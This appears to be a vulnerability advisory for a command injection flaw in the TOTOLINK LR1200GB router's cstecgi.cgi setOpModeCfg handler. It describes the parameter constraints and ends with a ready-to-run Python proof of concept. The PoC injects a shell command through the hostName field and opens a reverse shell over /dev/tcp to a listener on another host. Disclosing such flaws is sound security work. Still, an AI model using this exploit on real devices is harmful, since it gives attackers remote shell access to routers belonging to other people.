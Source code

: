 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following images displays the code for a command injection vulnerability in the `setOpModeCfg` handler function of  `cstecgi.cgi`. The call chain is `sub_42eac8` -> `sub_42635c` -> `sub_4250b8`.Here's the constraints:
1. the value of `opmode` parameter !="gw"
2. the value of `proto` parameter !=6

At the end, the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.

`sub_42eac8` func:
![code3](./code3.png)
![code4](./code4.png)

`sub_42635c` func:
![code5](./code5.png)

`proto` parameter in `sub_4250b8` func 
![code2](./code2.png)

`hostName` parameter in `sub_4250b8` func , 
![code1](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "opmode": "xxxx",
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setOpModeCfg",
    "token": "00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)

